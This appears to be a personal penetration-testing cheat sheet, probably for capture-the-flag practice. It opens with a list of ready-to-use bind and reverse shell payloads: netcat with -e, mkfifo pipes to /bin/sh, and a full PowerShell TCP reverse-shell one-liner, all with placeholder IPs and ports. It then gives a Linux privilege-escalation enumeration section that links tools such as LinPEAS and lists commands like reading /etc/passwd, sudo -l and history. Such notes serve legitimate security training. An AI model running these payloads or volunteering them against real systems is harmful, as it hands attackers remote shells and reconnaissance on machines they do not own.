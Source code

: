 --
**common shell payloads**
--
windows netcat binary when sent will work
`nc -lvnp <PORT> -e /bin/bash` | bind shell payload not included in most version because of insecurity
`nc <LOCAL-IP> <PORT> -e /bin/bash` | reverse shell payload not included in most version because of insecurity
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` | bind shell for linux incase of nc version secure
`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` | reverse shell for linux
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | windows powershell oneliner
--

**Linux PrivEsc**
--
**enumeration**
--
automated enumeration tools:
`LinPeas`: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
`LinEnum`: https://github.com/rebootuser/LinEnum
`LES (Linux Exploit Suggester)`: https://github.com/mzet-/linux-exploit-suggester
`Linux Smart Enumeration`: https://github.com/diego-treitos/linux-smart-enumeration
`Linux Priv Checker`: https://github.com/linted/linuxprivchecker
`https://gtfobins.github.io/` | priv esc bin
--
`hostname` | can provide useful information about the system or not, give it ago
`uname -a` | system information, details about kernel, useful for finding kernel vulns
`/proc/version` | information about system processes, on many different linux distros, may give information about kernel and additional data lik whether a compiler like gcc is installed
`/etc/issue` | system information about operating system
`ps` | show running processes on linux system can show time used by procceses, may show active processes that we didnt know about
`ps -a` | view all processes
`ps axjf` | view process tree
`ps aux` | show processes for all users, display user that launched, display processes not attached to terminal, gives better understanding of system and potential vulns
`env` | environment variables
`sudo -l` | list commands current user can run using sudo
`ls -la` | list all files/folders in long format as well as hidden
`id` | users priv level
`/etc/passwd` | easy way to discover users on sys
`cat /etc/passwd | cut -d ":" -f 1` | proccess /etc/passwd for bruteforce input grepping for home may be more useful
`cat /etc/passwd | grep home` | grep for users in home
`history` | some idea about the target system, might reveal sensitive information
`ifconfig` | interface information, target machine may bea pivot point can be confirmed with `ip route`
`netstat` | used to check for existing communication on the system
`netstat -a` | shows all listening ports and established connections
`netstat -at or netstat -au` | used to list tcp or udp ports
`netstat -l` | list ports in listening mode use with `-t` for tcp open ports ready for connection
`netstat -s` | list network usage stats
`netstat -tp` | list connections with the service name and PID information can be used with `-l`
`netstat -i` | interface statistics
`netstat -ano` | display all sockets, do not resolve names, display timers
`find . -name flag1.txt`| find the file named “flag1.txt” in the current directory